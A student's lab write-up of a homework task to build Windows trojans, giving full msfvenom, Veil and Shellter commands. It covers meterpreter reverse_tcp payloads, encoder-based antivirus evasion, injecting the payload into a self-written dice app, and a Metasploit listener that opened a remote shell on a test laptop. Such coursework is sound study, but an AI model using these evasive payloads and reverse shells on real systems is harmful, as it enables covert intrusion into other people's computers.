



# h5

## 1

*Create at least two different Trojans*

A Trojan is a malicious piece of software that tries to get access to users system by disguising itself as a legitimate program.

I set out to create a Trojan that could fool both user and computer meaning it wouldn’t get caught in antivirus software or be suspicious to humans. 

### Trojan for Windows

#### MSFvenom

I started by creating a payload using msfvenom that comes pre-installed with Kali.

    sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=”my ip” LPORT=4444 -f exe > mprtcp_trojan.exe

Here I’m creating a meterpreter payload with reverse shell targeting Windows machines. -p stands for payload, LHOST is my ip-address, LPORT is the port this payload uses and -f is the type of file I’m creating, exe being a Windows executable which I’m naming “mprtcp_trojan.exe”.

I uploaded my creation to Google Drive and downloaded it from there to the target computer, a Windows 10 laptop that has Avira antivirus software in addition to Windows Defender.

When I tried to download the trojan, both Defender and Chrome caught it. I wanted to try if I could get the Meterpreter connection anyway and downloaded the exe despite Chromes and Defenders warnings but Avira kindly decided to get rid of it without bothering to ask me first. 

Well, one of my goals was to get past a antivirus software anyway so I tried again, this time using an encoder:

    sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=”my ip” LPORT=4444 -e x86/shikata_ga_nai -i 3  -f exe > mprtcp_enc_trojan.exe

-e stands for encoder, shikata_ga_nai is the encoder I’m using and -i is the number of times the payload is encoded.

Unfortunately encoding didn’t help. I got caught by everything again so I tried something different.

#### Veil

Veil is a payload generator for bypassing antivirus solutions.
 
After installing Veil

    sudo apt install veil

I navigated to veil/config

    cd /usr/share/veil/config

and ran setup.

    ./setup.sh
    
Veil installs all sorts of extra stuff and bunch of Windows-style pop-ups… pop up. I kept clicking “Next” and “Finish” until setup was done.

    sudo veil

opens the Veil interface.

Veil then asks which tool you want to use. Evasion was the one I was interested in. 

Next you’ll have to choose payload. There’s 41 payloads to choose from. “List” lists all the payloads. I went with nro. 29 “python/shellcode_inject/aes_encrypt.py”.

Next up is payload settings. I left them as is, except I turned on pyherion encryption with “set use_pyherion Y” because it sounds like it could help with getting past all the antivirus softwares.

 
Following that, what you’ll use to generate shellcode. MSFvenom sounded familiar. And after that, the shellcode it self. Meterpreter/reverse_tcp is the default and that’s what I went with.

LHOST and LPORT are the same ones as with just MSFvenom. There’s an option to enter extra options. I didn’t enter any.

Then you’ll have to pick a name and finally, a method to turn the payload into executable. I chose PyInstaller.

The executable was generated into /var/lib/veil/output/compiled.
I again tried to move the trojan into the target machine using Google Drive but unfortunately, just like the previous ones, this one also got caught and removed. I read that it could be possible to fool antivirus solutions with the right combination of payload/ encryption so I kept trying different combinations but none got past the targets defences.

#### Shellter

After some research I stumbled upon Shellter a shellcode injection tool which, like Veil, is supposed to get the payload to the target machine unnoticed. 

    sudo apt install shellter

installs Shellter and

    sudo shellter

runs it.

Shellter requires an Windows executable to inject a payload into. Instead of using any existing app I decided it would be a good idea to make my own. Not having coded anything except a hello world with Python before, Python was the obvious choice of language. Without bothering to check any tutorials or anything (because how hard can it be?) I popped open Nano and got to work. After an embarrassing amount of time (who knew Python is so into indentation also, python != python3) and checking some Python tutorials my masterpiece was complete.

Behold: Noppatesti.

    #!/usr/bin/python
    # -*- coding: utf-8 -*-

    from random import randint

    min = 1

    roll_again = 'y'

    while roll_again == 'y':
        max_num = input('Enter the number of sides on a dice: ')
        max = int(max_num)
        dice = int(input('Enter the number of dice rolled: '))
        print ('Rolling...')

        for number in range(0, dice):
            number_current = randint(min, max)
            print(number_current)

        roll_again = input('Roll again? (y/n) ')

This is a dice rolling app. It asks the user to input the number of sides on a dice, number of dice rolled and prints the outcome on console.

I gave it executable permissions and tested it:

    chmod -x noppatesti.py
    python3 noppatesti.py

Because Shellter requires .exe -files and noppatesti was a .py -file I had to convert it into .exe. I decided to do use PyInstaller. Apparently the conversion should be done in Windows so I send noppatesti to a Windows machine (the same one that was my target) via Drive. Avira thought it was a virus so I had to add an exception for it. Once I got the program past Avira I ran PyInstaller.

    pyinstaller -F noppatesti.py

Noppatesti.exe could now be found in a folder called “dist” that PyInstaller created.

I confirmed that my newly created exe ran and sent it back to Kali and launched Shellter.

I chose auto as an operation mode and noppatesti.exe as the app to inject the payload into.

As far as I understand, “stealth mode” allows the app function normally despite the Meterpreter connection, which sounds pretty useful feature for a trojan to have so I enabled it. Meterpreter_reverse_tcp was again my payload of choice and neither LHOST or LPORT changed either. 

Shellter did its thing and I now had a supposedly infected noppatesti.exe. I again use Drive to get the file to the target computer and this time none of the antiviruses complained! Unfortunately, it wouldn’t run. Neither the Meterpreter connection nor the dice rolling part worked. 

I tried to create another infected app, this time using the manual mode but that didn’t work either. After trying with all sorts of different settings manual mode had I figured that maybe the fault was in my app. 

I tried again with templates I found in

    /usr/share/metasploit-framework/data/templates

and

    /usr/share/windows-binaries

but none of the ones I tried worked so I gave up on Shellter.

#### Back to MSFvenom and Veil

Since injecting a payload into an app should decrease the probability of getting caught by antivir and I had only used Venom and Veil to create payloads instead of creating payloads and injecting said payloads into an executable I tried again.

I started with Venom.

    sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=”my ip” LPORT=4444 -x /home/jii/noppatesti.exe -k -e x86/shikata_ga_nai -i 10 -f exe > dice_malware.exe

-x is the executable payload is injected into
-k is similar to “stealth mode” found in Shellter

It didn’t fool the antivirus softwares.

I still wanted to try if I could get the Meterpreter connection to form, so I made an exception to Avira and downloaded the file to the target computer. Before running the infected noppatesti.exe, now named dice_malware.exe I set up Metasploit to listen for the connection

    msfconsole
        use multi/handler
        set payload windows/meterpreter/reverse_tcp
        set lhost “IP”
        set lport 4444
        exploit
 
and ran dice_malware.exe.

The dice rolling part didn’t work but the Meterpreter connection was established. I got in.

I tried again, this time with Veil. I followed the same steps as before with Veil except this time I added

    -x=/home/jii/noppatesti.exe

and

    -k=

as extra msfvenom options.

Unfortunately the results were exactly the same as with Venom: I got caught by antivir and dice rolling didn’t work but Meterpreter connection was established.  

I kept trying with Venom and Veil using different settings and different executables but the results never changed.
       
I later stumbled upon the following:

“The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.”

https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom

I guess that explains it.

In conclusion: 

I got past antivir only with an executable done with Shellter but none of those did anything when ran.
Executables made with Venom or Veil couldn’t get past antivir on their own and didn’t launch properly, however Meterpreter was established. 
Executables ran properly when they weren’t infected.
